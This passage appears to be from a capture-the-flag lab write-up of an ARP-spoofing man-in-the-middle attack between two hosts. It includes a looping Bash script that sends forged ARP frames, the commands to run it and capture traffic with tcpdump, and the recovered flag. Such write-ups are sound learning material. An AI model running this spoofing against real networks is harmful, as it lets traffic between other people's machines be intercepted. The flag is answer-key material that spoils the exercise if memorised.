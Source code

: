 #### **Converting Payloads to Binary**
```bash
xxd -r -p alice_payload.hex alice_payload.bin
xxd -r -p bob_payload.hex bob_payload.bin
```

---

### **2. Writing the Spoofing Script**
To automate the attack, I wrote a Bash script (`spoofing.sh`):
```bash
#!/bin/bash
while true; do
    sudo raw_packet eth1 02:42:0a:0a:28:03 0x0806 bob_payload.bin
    sudo raw_packet eth1 02:42:0a:0a:28:02 0x0806 alice_payload.bin
    sleep 1
done
```
Make the script executable:
```bash
chmod +x spoofing.sh
```

---

### **3. Performing the Attack**

#### **Running the Spoofing Script**
```bash
sudo ./spoofing.sh
```

#### **Generating Network Traffic**
I generated traffic between **Alice** and **Bob**:
```bash
ping <alice_ip>
ping <bob_ip>
```

#### **Capturing Traffic**
Using `tcpdump` to monitor traffic:
```bash
sudo tcpdump -i eth1 -n -XX
```
- `-i eth1`: Interface used for the attack.
- `-n`: Disables name resolution.
- `-XX`: Displays packet data in hex and ASCII.

---

### **4. Analyzing the Traffic**
From the captured packets, I extracted the **CTF flag**:
```
CTF{secret-Fe7Dsr2rYfcuhQFvskXl}
```

---